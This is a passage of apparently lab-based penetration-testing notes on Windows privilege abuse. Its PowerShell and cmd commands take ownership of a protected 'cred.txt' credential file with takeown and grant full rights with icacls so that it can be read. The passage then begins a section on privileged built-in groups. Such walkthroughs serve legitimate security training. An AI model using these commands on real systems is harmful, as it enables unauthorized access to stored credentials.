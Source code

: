     # inspect the file
    Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

    # file owner is not shown, so we do not have enough permissions over the object

    cmd /c dir /q 'C:\Department Shares\Private\IT'
    # check owner of the parent directory
    # this is owned by a service account 'sccm_svc'

    # using privilege, take ownership of file
    takeown /f 'C:\Department Shares\Private\IT\cred.txt'

    # confirm ownership has changed with same command - we can see owner now
    Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

    # modify ACL if we are still unable to read it

    icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
    # grant full priv using icacls

    # now we can read the file
    ```

## Windows Group Privileges

* Windows Built-in Groups:

    * Windows servers have a lot of built-in groups - many of these provide special privileges to their members

    * [List of all built-in groups](https://ss64.com/nt/syntax-security_groups.html) and [list of all privileged accounts & groups in AD](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory) for reference

* Backup Operators:
